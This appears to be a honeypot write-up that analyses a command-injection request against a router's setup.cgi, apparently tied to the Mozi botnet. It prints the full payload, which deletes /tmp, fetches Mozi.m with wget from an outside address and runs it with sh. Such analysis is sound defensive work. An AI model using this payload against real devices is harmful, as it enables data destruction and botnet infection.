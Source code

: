 This request is designed to execute a series of commands via the query parameters. Here's a breakdown of the command sequence:
1. `rm -rf /tmp/*`: Deletes everything in the `/tmp` directory.
2. `wget http://192.168.1.1:8088/Mozi.m -O /tmp/netgear`: Downloads a file named `Mozi.m` from `http://192.168.1.1:8088` and saves it as `/tmp/netgear`.
3. `sh netgear`: Executes the downloaded script.

This sequence suggests that the attacker was attempting to first clean the target's temp directory, then download and execute a malicious script named `Mozi.m`.

<details><summary>
<h3>HTTP Sessions</h3>
</summary></details>

---


The HTTP request observed in the attack against the Linux honeypot is a meticulously crafted command designed to exploit a vulnerability, execute unauthorized commands on the victim server, and possibly download and execute malicious scripts. Here's an analysis:

### HTTP Request Breakdown:
- **Request Type**: GET
- **URI**: `/setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://192.168.1.1:8088/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1`

#### Components of the Payload:
1. **Targeted Script**: `setup.cgi`
    - This indicates the specific script or endpoint on the server that the attacker is targeting. The use of a common script like 'setup.cgi', often found on network devices or systems with web interfaces, suggests this attack may be tailored to exploit vulnerabilities present in software associated with this endpoint.

2. **Query Parameters**:
    - `next_file=netgear.cfg` & `curpath=/` & `currentsetting.htm=1`: These parameters might be attempting to masquerade the request as a legitimate one for configuration purposes, or they could be used to exploit specific logic flaws in how the `setup.cgi` script processes these inputs.
    - `todo=syscmd`: Indicates an attempt to execute a system command, possibly exploiting a feature or bug in the script that allows for command execution.
    - `cmd=rm+-rf+/tmp/*;wget+http://192.168.1.1:8088/Mozi.m+-O+/tmp/netgear;sh+netgear`: The payload for the attack, broken down as follows:
        1. **Clear Temporary Directory** (`rm -rf /tmp/*`): Removes all files within the `/tmp` directory of the Linux system, potentially to ensure space or remove evidence of previous activities.
        2. **Download Malware** (`wget http://192.168.1.1:8088/Mozi.m -O /tmp/netgear`): Utilizes `wget` to download a file named `Mozi.m` from the specified address, saving it as `/tmp/netgear`. This step is concerning, as it indicates the attacker is attempting to download an external script or executable, likely malicious, onto the target system.
        3. **Execute Downloaded File** (`sh /tmp/netgear`): Runs the previously downloaded file, which could be a script or binary, presumably to achieve the attacker’s intended actions (e.g., installing a backdoor, executing a payload, joining a botnet).

#### Attack Intent:
Based on the composition of the request, the attacker's goals seem to include:
- **Initial Reconnaissance & Cleanup**: By deleting the contents of `/tmp`, the attacker may be preparing the environment for further activities without interference from existing files.
- **Malware Deployment**: The use of `wget` to download a file named `Mozi.m` suggests the intent to deploy malware on the compromised system. Given the name, it might be related to the Mozi botnet, known for compromising IoT devices and routers.
- **Execution and Compromise**: Running the downloaded script or binary (`sh /tmp/netgear`) signifies the final step in achieving execution, likely leading to the system's compromise.
